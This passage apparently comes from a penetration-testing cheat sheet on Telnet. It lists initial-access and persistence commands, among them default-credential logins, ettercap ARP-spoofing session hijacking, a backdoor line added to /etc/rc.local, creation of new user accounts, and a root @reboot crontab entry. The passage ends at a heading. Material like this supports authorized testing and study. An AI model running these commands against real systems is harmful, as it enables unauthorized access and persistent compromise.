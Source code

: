 ### Initial Access

#### Exploit Default Credentials

*   **Tool:** \[\[Telnet]]

    ```bash
    telnet <target_ip> 23
    ```
* **Description:** Login using common default credentials for Telnet, especially on network devices.

#### Session Hijacking

* **Tool:** \[\[ettercap]]
*   **Command:**

    ```bash
    ettercap -T -M arp:remote /<client_ip>/ /<target_ip>/
    ```
* **Description:** Performs an ARP spoofing attack to hijack an active Telnet session, allowing the attacker to inject commands and potentially disrupt the service.

### Persistence

#### Creating a Backdoor

*   **Tool:** \[\[Custom Scripts]]

    ```bash
    (echo "echo 'backdoor' >> /etc/rc.local"; echo "exit") | telnet <target_ip>
    ```
* **Description:** Modifies startup scripts on the target to maintain persistent access via Telnet.

#### Create a New User Account

*   **Tool:** \[\[Telnet]]

    ```bash
    useradd <username> -p $(openssl passwd -1 'password')
    ```
* **Description:** Creates a new user with root privileges via Telnet, allowing persistent access.

#### Installing Persistent Scripts

*   **Tool:** \[\[Telnet]]

    ```bash
    echo "@reboot root /bin/bash /path/to/script.sh" >> /etc/crontab
    ```
* **Description:** Adds a script to cron that runs at startup, ensuring persistence on the target system.

#### Leaving an Unauthenticated Telnet Session

